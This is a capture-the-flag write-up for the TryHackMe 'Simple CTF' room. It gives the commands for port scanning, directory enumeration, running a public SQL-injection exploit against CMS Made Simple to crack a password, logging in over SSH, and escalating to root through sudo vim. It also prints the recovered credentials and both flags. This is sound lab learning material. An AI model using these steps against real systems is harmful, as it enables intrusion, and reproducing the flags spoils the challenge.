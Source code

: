 # SIMPLE-CTF

![firstBAnner.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/firstBAnner.png)

## TASK 1

> How many services are running under port 1000?
> 

so we will scan the target accordignly

we use this command == `nmap -sVC -Pn -oN intial_nmap [target_ip]`

so as we saw on the picture below there are 2 running service under port 1000 the other one is running on port 2222

![nmapResult.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/nmapResult.png)

> on this address we have found only 3 ports from their are 21,80,and 2222 
so we have only 2 ports running under port 1000
> 

## TASK 2

> What is running on the higher port?
> 

as we can see on our scanning result the higher port is 2222 so the service that is running on that port is `ssh`

## TASK 3

> What's the CVE you're using against the application?
> 

### Thanks to TryHackMe, we have a given hint:

Question Hint:

> An issue was discovered in **CMS Made Simple** 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.
> 

**method 1
according to the hint we will search it on google and we will get the bellow result**

![cmsMadeSimple-fotor-2025081191750.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/cmsMadeSimple-fotor-2025081191750.png)

### method 2
we can also get the full information using exploit DB offline in kali terminal  use command `searchsploit 'CMS made simple'`
this command will return the below result

![searchSploit.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/searchSploit.png)

the file name ‘[46635.py](http://46635.py/)’
after we got the file we will try to know the location of the file using the following command 

`locate '[46635.py](http://46635.py/)`'

![locationOfFile.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/locationOfFile.png)

This will give us the following result:

Location: /usr/share/exploitdb/exploits/php/webapps/46635.py

So in order to see the content of the file, we should copy the file path to our current directory using the `'cp /usr/share/exploitdb/exploits/php/webapps/46635.py .'` command.
Now we can access the file in our local directory.

![CVEfound.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/CVEfound.png)

## TASK 4

> To what kind of vulnerability is the application vulnerable?
> 

We have also the given hint we will use it to crack the password for task 5

================================================================
Question Hint

# You can use `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` to crack the password

we should consider that the first above hint gives us the name of the vulnerability **`SQLI`**

## TASK 5

> What's the password?
> 

First we should enumerate the target if there is hidden files in that address we use gobuster command  

`┌──(selsu1865㉿kali)-[~/TryHackMe/SimpleCTF]
└─$ gobuster dir -u http://[given_ip] -w /usr/share/wordlists/dirb/common.txt`

so we will get the hidden folder named **“simple”**

![gobusterTofindHiddenFile.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/gobusterTofindHiddenFile.png)

on task 4 

Question Hint=============

You can use `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` to crack the pass========

we have given hint to crack the password of the user:  so we will use the python that we found on ‘CMS made simple’ and the hidden folder we found on the server ‘**/simple’**

so we will run the below command to crack the password 

`python2.7 [46635.py](http://46635.py/) -u http://[given_ip]/simple -c -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`

![passwordUsernamefound.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/passwordUsernamefound.png)

we successfully found our credentials 

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: [admin@admin.com](mailto:admin@admin.com)
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: **secret**

## TASK 6

> Where can you login with the details obtained?
> 

after we found our credentials
username='mitch'
password='secret'
we can login remotely using secure shell === **`ssh`**

## TASK 7

What's the user flag?

to get the user flag we should access remote machine using the following command 

`ssh [mitch@](mailto:mitch@10.10.6.99)[given_ip] -p 2222` then enter the password of **'mitch'** to access the remote machine 

![userflag.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/userflag.png)

> userflag= `G00d j0b, keep up!`
> 

## TASK 8

> Is there any other user in the home directory? What's its name?
> 

check if there is other user in that machine
using the following command `cd /home`
then    `ls`
it result **mitch** and **sunbath**

so we will submit the other username **sunbath**

## TASK 9

> What can you leverage to spawn a privileged shell?
> 

we can leverage the spawn privileged shell with `vim`

## TASK 10

> what is the root flag ?
> 

First, we should run the '`sudo -l'` command to check what we are allowed to run on this remote machine. This will show us which executable commands we have permission to use.

> $ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
> 

we should run the below command to be a root user of that remote machine
`sudo vim -c ':!bash'`

we have successfully accessed a root user and we can interact with the remote machine for unlimited operation

lets read the content of root.txt file to find our final flag

![finalFlags.png](SIMPLE-CTF%2024ab66e397c98063a592f7b5133d643c/finalFlags.png)

root flag == **W3ll d0n3. You made it!**

prepared by Sirajudin

# THANK YOU